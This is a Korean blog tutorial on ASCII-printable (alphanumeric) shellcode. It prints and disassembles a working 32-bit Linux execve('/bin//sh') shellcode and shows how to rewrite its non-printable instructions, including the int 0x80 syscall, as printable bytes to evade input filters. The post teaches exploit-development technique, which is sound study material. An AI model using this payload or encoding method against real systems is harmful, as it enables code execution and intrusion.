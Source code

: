 ```yaml
---
layout: post
title: ! "Ascii Numeric ShellCode"
excerpt_separator: <!--more-->
comments : true
tags:
  - Shellcode
  - Ascii
  - t4ngo
---
```


제가 얼마 전에 아주 재밌게 보았던! Ascii ShellCode에 대해 설명하여 볼까 합니다. Ascii-Numeric-ShellCode란 출력 가능한 Ascii 문자들로 이루어진 쉘 코드를 뜻하며 다형성 쉘코드의 한 종류입니다!

출력 가능한 Ascii 문자들로 이루어진 쉘 코드가 무슨 말이냐?

지금부터 저와 함께 알아보시죠! GOGOGO~~!

<!--more-->

먼저, 우리가 흔히 알고 있는 Basic한 32-bit Shell code를 봐 볼까요?

- `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

보통 우리는 Simple한 ShellCode Exploit을 할 때 보통 위와 같은 쉘 코드를 주로 사용합니다!

좀 더 보기 쉽게 disassemble 해 볼까요?

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

Online Assembler로 간단하게 Disassemble하면 위와 같은 Assembly 코드를 볼 수가 있습니다.

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
```

코드를 보면 위 코드에서 스택에 0을 push합니다. 

```
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
```

그런 다음 현재 코드에서 스택에 "/bin//sh(0x68732f2f, 0x6e69622f)"을 push하는 것을 알 수 있죠?

```
d:  89 e3                   mov    ebx,esp
```

다시 코드를 쭈~욱 보면 아래 코드를 통해 스택에 궁극적으로 "/bin//sh"의 포인터를 ebx 레지스터에 넣습니다.

```
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
```

그리고, 0을 edx 레지스터에 넣은 후

```
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
```

ecx 레지스터에 "/bin//sh"이 저장된 곳의 포인터를 ecx 레지스터에 넣어 줍니다! 여기까지 잘 따라오셨나요?

```
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

그리고 마지막으로 al 레지스터에 0xb를 넣고 `'int 0x80'` 명령어를 통해 syscall을 수행하여 쨘~ 하고 쉘을 띄워줍니다!

여기까지가 보통 32-bit Shell Code입니다! 그렇다면!!! 드디어! Ascii-Numeric-ShellCode와는 무엇이 다른가?!

먼저, Ascii-Numeric-ShellCode는 위애서 설명했든 출력 가능한, printable한 hex 값들로 이루어진 Shellcode를 뜻합니다.

다시 위의 32-bit Shell Code를 봐 볼까요?

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

- `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
`

현재의 hex 값에는 Ascii 코드로 표현하지 못하는 hex 값이 존재합니다! 즉, Ascii table에 없는 hex 값이라 printable하지 못하다는 것이겠죠?

![]({{ site.baseurl }}/images/t4ngo/Ascii-Numeric-ShellCode/Ascii_Numeric_ShellCode_01.png)

출력 가능한 Ascii table의 범위는 0x20 ~ 0x7F까지입니다. 즉, 이 범위 안에 해당하는 hex 값들만 Ascii-Numeric-ShellCode로 사용이 가능하다는 뜻이겠죠?

그렇다면, 여러분은 현재의 32-bit ShellCode에서 Ascii의 범위를 벗어난 hex들을 찾으셨나요?

Ascii-Numeric-ShellCode란 바로 이런 Asciiable 하지 않은 hex 코드들을 Asciiable하게 바꿔주어 모든 hex 값이 출력 가능한 Ascii 값을 가진 Shell Code를 말합니다!!

위 코드에서 Asciiable 하지 않은 코드들을 뽑아볼까요?

1. 
```
0:  31 c0                   xor    eax,eax
```

2. 
```
d:  89 e3                   mov    ebx,esp
```

3. 
```
10: 89 e2                   mov    edx,esp
```

4. 
```
13: 89 e1                   mov    ecx,esp
```

5. 
```
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

위와 같은 코드 부분들이 모두 Ascii Table의 범위를 벗어났죠? 나쁜 녀석들이에요 ㅠㅠ.

그럼 이 hex 값들을 어떻게 바꿔주냐!! 지금부터 주목해주세요!

```
0:  31 c0                   xor    eax,eax
```

이 코드는

```
0:  6a 77                   push   0x77
2:  58                      pop    eax
3:  34 77                   xor    al,0x77
```

쨘! 이렇게 바꿔 줄 수 있겠죠? 결과적으로 `'xor eax,eax'`가 하는 일은 eax 레지스터에 0을 담는 것이므로 코드를 아래와 같이 바꿔 줄 수 있어요! ㅎㅎ

또한, 그 때마다 Binary의 레지스터 상황을 보고 유연하게 쉘 코딩도 할 수 있죠!

예를 들면, 쉘 코드를 호출하기 직전에 eax 레지스터에 0x01이 들어있었다! 그러면 코드를 `'dec eax'`로 수정해주면 eax 레지스터는 0이 되겠죠? (오옹! >_O)

그 다음! mov 코드들은 어떻게 바꿔주냐! mov도 마찬가지로 push, pop으로 해결이 가능합니다! ㅎㅎ

2번 코드를 push, pop으로 구현하면...

```
0:  54                      push   esp
1:  5b                      pop    ebx
```

위와 같은 코드로 바꿀 수 있겠죠? 스택에 esp를 push하고 ebx로 pop을 해주면서 `'mov ebx, esp'`와 같은 동작을 하게 됩니다!

mov 명령들은 위와 같이 해결해 주면 되고!

```
17: cd 80                   int    0x80
```

다음은, syscall 부분! 사실 이 부분이 제일 핵심이죠! 왜냐? `'int 0x80'`은 대체 할 수 있는 명령어가 거의 없기 때문이죠 ㅠㅠ

그렇기 때문에 앞서 말해드렸던 스택에 이미 존재하는 레지스터 값을 이용하여 syscall을 호출 하여야 하는데요! 

음... 가령 예를 들면 xo 

ecx 레지스터에 0xFFFF 값이 들어있다면 이 값을 활용하여 `'xor ecx, 0x327F'`를 해줘서 `'cd 80'` hex를 만들어 준 뒤 이 값을 활용하여 eip에 넣어주도록 스택의 상황에 맞게 조작하여 주면 됩니다!

사실, 이 부분은 Binary 마다 호출 당시 스택의 상황이나 레지스터의 상황이 다 다르기 때문에 이런식으로 원리를 설명드리는 방법이 최선인 것 같아요 ㅠㅠ

이 외에도 레지스터나 스택에 남아 있는 값들을 활용하여 `'cd 80'`을 만들어 주면 되는데 핵심은 스택에 `'cd 80'`을 만들어 주고 그 값을 활용하여 syscall을 한다는 것만 기억하면 됩니다!

Ascii-Numeric-ShellCode를 만드는 것이 이렇게 해서 이렇게 하면 이렇게 돼! 하고 딱 정의 되어 있지 않고 그때그때 스택의 상황이나 레지스터의 상황을 보며 자신에게 가장 알맞는 코드를 선택하여 쉘 코딩해주면 되기 때문에 대략 이런 원리로 Ascii-Numeric-ShellCode가 만들어 진다는 점만 기억해주시면 될 것 같습니다!

이제 여러분의 레지스터나 스택 상황에 맞게 창의성을 발휘하여 Ascii-Numeric-ShellCode를 만들어 보세요~~!!! 화이팅!
